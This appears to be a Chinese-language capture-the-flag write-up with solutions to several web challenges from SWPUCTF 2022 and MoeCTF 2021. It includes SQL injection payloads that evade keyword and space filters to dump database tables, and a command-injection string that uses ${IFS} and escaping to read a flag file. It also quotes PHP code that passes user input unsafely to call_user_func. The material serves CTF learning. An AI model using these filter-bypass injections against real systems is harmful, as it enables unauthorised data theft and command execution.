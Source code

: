 ```	TEXT
?num=2019e8&md5=0e215962017&get_flag=tac<>fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

## [SWPUCTF 2022 新生赛]ez_sql
- 尝试联合注入，发现报错，且空格和 union 被消除。
```TEXT
-1' union select 1,2%23
```
- 想办法绕过，通过隔开字符成功绕过。
```TEXT
-1'/**/ununionion/**/select/**/1,2,3%23
/*第一行没有内容，所以我们来看第二行*/
-1'/**/ununionion/**/select/**/1,2,3/**/limit/**/1,1%23  
```
- 按常规流程注入，但发现 or 也会被过滤，所以要再次构造。
```TEXT
-1'/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema=database()/**/limit/**/1,1%23

-1'/**/ununionion/**/select/**/1,2,group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='NSS_tb'/**/limit/**/1,1%23

-1'/**/ununionion/**/select/**/id,group_concat(Secr3t),group_concat(flll444g)/**/from/**/NSS_db.NSS_tb/**/limit/**/1,1%23
```
>换行：`limit/**/1,1#`

## [MoeCTF 2021]babyRCE
- 查看页面源代码可以传参 `rce`，但是有过滤。

Payload：
```bash
ca\t${IFS}fl\ag.php
```

## [SWPUCTF 2022 新生赛]numgame
- 题目部分源码
```PHP
<?php  
error_reporting(0);  
// hint: 与get相似的另一种请求协议是什么呢  
include("flag.php");  
class nss{  
    static function ctf(){  
        include("./hint2.php");  
    }  
}  
if(isset($_GET['p'])){  
    if (preg_match("/n|c/m",$_GET['p'], $matches))  
        die("no");    
    call_user_func($_GET['p']);    
}
else{    
	highlight_file(__FILE__);  
}
?>
```
- 第一个提示是指用 GET 和 POST 都可以出答案。      
